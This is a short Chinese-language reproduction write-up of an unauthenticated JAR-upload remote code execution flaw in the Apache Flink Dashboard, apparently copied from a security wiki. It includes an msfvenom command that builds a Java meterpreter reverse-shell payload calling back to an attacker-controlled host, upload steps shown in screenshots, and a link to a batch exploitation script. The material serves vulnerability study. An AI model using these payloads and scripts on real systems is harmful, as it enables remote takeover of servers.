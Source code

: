 # Apache Flink Dashboard 未授权访问-远程代码命令执行

> 原文：[http://book.iwonder.run/0day/Apache/Apache Flink Dashboard 未授权访问-远程代码命令执行.html](http://book.iwonder.run/0day/Apache/Apache Flink Dashboard 未授权访问-远程代码命令执行.html)

## 一、漏洞简介

Apache Flink 的任意 Jar 包上传导致远程代码执行的漏洞

## 二、漏洞影响

<= 1.9.1(最新版本)

## 三、复现过程

### 1、

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar 
```

![image](img/974fc6b4fc8b8f74b71a25a24c70d537.png)

### 2、

上传 alewong Jar 包

![image](img/7fb7d2572cc922180aaada501ba0b2b2.png)

![image](img/8e48923b0d40204135a0e62594dd9757.png)

### 批量脚本

[https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec](https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec)

```
Ps:
当注释掉 if 'Unable to load requested file' in str(data):
之后，出现 Token 为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权 
```

